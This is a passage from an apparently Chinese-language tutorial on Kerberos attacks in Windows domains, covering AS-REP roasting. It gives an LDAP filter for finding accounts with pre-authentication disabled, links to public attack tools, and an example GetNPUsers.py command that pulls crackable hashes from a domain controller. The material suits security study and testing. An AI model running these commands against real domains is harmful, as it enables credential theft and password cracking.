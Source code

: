 [**注意**] [DONT_REQUIRE_PREAUTH](https://docs.microsoft.com/en-us/troubleshoot/windows-server/identity/useraccountcontrol-manipulate-account-properties) 标识可以在 `User Account Control` 中进行设置

![image-20220217131952630](../assets/2021-09-01-%E6%B7%B1%E5%85%A5%E4%BA%86%E8%A7%A3Kerberos&Windows%E8%AE%A4%E8%AF%81%E6%94%BB%E5%87%BB/image-20220217131952630.png)

<center>在UAC中设置标识</center>



使用LDAP过滤器列出设置 `DONT_REQUIRE_PREAUTH` 标志的用户

```powershell
(userAccountControl:1.2.840.113556.1.4.803:=4194304)
```



也可以使用以下工具

```powershell
https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetNPUsers.py
https://github.com/GhostPack/Rubeus#asreproast
https://github.com/HarmJ0y/ASREPRoast
```



利用

```powershell
GetNPUsers.py 'contoso.local/Anakin:Vader1234!' -dc-ip 192.168.100.2 -outputfile asreproast-hashes.txt
```
